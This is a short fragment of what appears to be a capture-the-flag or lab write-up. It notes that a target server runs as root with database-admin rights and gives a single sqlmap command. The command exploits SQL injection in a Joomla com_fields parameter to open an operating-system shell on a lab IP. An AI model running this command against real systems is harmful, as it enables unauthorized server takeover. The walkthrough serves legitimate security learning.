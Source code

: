 ![sqlm-enum](assets/markdown-img-paste-20210830052238489.png)

Server running as root and is dba.

`sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent --os-shell -p list[fullordering]`
